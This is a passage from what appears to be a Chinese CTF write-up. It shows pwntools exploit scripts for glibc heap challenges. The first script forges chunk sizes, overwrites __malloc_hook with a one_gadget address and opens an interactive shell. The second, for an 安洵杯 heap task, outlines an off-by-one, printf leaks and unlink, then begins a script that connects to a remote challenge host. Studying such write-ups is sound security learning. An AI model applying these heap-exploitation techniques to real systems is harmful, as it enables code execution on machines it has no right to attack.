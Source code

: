 ```py
        Add(0x80,'0')
    Add(0x40,'0')

    Edit(0x50,'0'*0x40+p64(0)+p64(0x81))

    p.recvuntil('> ')
    p.sendline('M')
    p.recvuntil("size > ")
    p.sendline("1"*0x1000)
    libc.address = libc_base
    gadgets = [0xe237f,0xe2383,0xe2386,0x106ef8,]
    shell_addr = libc_base + gadgets[1]
    Edit(0x58,'a'*0x40+p64(0)+p64(0x61)+p64(libc.sym['__malloc_hook']))
    Add(0x50,'a')
    Add(0x50,p64(shell_addr))
    p.recvuntil('> ')
    p.sendline('M')
    p.recvuntil("size > ")
    p.sendline('17')
    p.interactive()

exp()
```

## 安洵杯

### 前言

本来是想做mips pwn的，但是我可能因为IDA版本太高用mipsrop搜不到gadgets，搭了个环境就放弃辽qwq，其他四道题还算简单，这里记录一道heap

### heap

edit里可以off-by-one，通过pintf泄露出Proc_base和libc，unlink即可

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./axb_2019_heap')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./axb_2019_heap')

else:
    libc = ELF('./x64_libc.so.6')
    p = remote('f.buuoj.cn',20173)

def Add(idx,size,content):
    p.recvuntil('>> ')
    p.sendline('1')
    p.recvuntil("Enter the index you want to create (0-10):")
    p.sendline(str(idx))
    p.recvuntil("Enter a size:\n")
    p.sendline(str(size))
    p.recvuntil("Enter the content: \n")
    p.send(content)

def Edit(index,content):
    p.recvuntil('>> ')
```